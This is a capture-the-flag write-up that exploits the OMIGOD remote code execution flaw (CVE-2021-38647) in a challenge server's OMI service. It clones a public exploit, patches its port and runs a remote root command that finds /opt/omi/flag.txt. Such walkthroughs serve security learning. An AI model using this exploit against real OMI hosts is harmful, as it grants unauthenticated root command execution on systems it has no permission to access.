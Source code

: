 > http://challenge.ctf.games:31320/

![](attachment/068582101333c4bcddda4604fd6272e9.png)

Google : `omni server exploit`

> https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-omi

```bash
git clone https://github.com/horizon3ai/CVE-2021-38647
cd CVE-2021-38647
```

Edit the script to point to the right HTTPS port

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ctf/fetch-the-flag-2023]
└─$ diff CVE-2021-38647/omigod.py CVE-2021-38647-mod/omigod.py
13d12
<       <a:To>HTTP://192.168.1.1:5986/wsman/</a:To>
40c39
<     r = requests.post(f'https://{target}:5986/wsman', headers=headers, data=DATA.format(command), verify=False)
---
>     r = requests.post(f'https://{target}:30798/wsman', headers=headers, data=DATA.format(command), verify=False)
```

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ctf/fetch-the-flag-2023/CVE-2021-38647]
└─$ python omigod.py -t challenge.ctf.games -c 'find / -type f -iname "*flag*" -ls 2>/dev/null'|sed 's/&#10;/\n/g'
  1051612      8 -rwxr-xr-x   1 root     root         7565 May 25  2022 /usr/bin/dpkg-buildflags
  1054060      4 -rw-r--r--   1 root     root         2822 Jul 26 11:44 /usr/include/x86_64-linux-gnu/bits/termios-c_oflag.h
  1054059      4 -rw-r--r--   1 root     root         2594 Jul 26 11:44 /usr/include/x86_64-linux-gnu/bits/termios-c_lflag.h
  1054057      4 -rw-r--r--   1 root     root         1230 Jul 26 11:44 /usr/include/x86_64-linux-gnu/bits/termios-c_cflag.h
  1053975      4 -rw-r--r--   1 root     root         1997 Jul 26 11:44 /usr/include/x86_64-linux-gnu/bits/mman-map-flags-generic.h
  1054058      4 -rw-r--r--   1 root     root         1936 Jul 26 11:44 /usr/include/x86_64-linux-gnu/bits/termios-c_iflag.h
  1054118      4 -rw-r--r--   1 root     root         2218 Jul 26 11:44 /usr/include/x86_64-linux-gnu/bits/waitflags.h
  1054027      4 -rw-r--r--   1 root     root         1188 Jul 26 11:44 /usr/include/x86_64-linux-gnu/bits/ss_flags.h
  1053889      8 -rw-r--r--   1 root     root         6623 Oct  2 22:13 /usr/include/x86_64-linux-gnu/asm/processor-flags.h
  1053119      4 -rw-r--r--   1 root     root          900 Oct  2 22:13 /usr/include/linux/kernel-page-flags.h
  1053512      8 -rw-r--r--   1 root     root         4527 Oct  2 22:13 /usr/include/linux/tty_flags.h
  1057738      4 -rw-r--r--   1 root     root         1269 May 23 21:17 /usr/lib/x86_64-linux-gnu/perl/5.30.0/bits/waitflags.ph
  1057705      4 -rw-r--r--   1 root     root          443 May 23 21:17 /usr/lib/x86_64-linux-gnu/perl/5.30.0/bits/ss_flags.ph
  1062490     12 -rw-r--r--   1 root     root        11594 May 25  2022 /usr/share/perl5/Dpkg/BuildFlags.pm
  1059632      4 -rw-r--r--   1 root     root         1590 May 25  2022 /usr/share/dpkg/buildflags.mk
  1068066      4 -rw-r--r--   1 root     root           38 Oct 27 02:22 /opt/omi/flag.txt
    10805      0 -r--r--r--   1 root     root         4096 Oct 28 15:35 /sys/devices/pnp0/00:05/tty/ttyS2/flags
```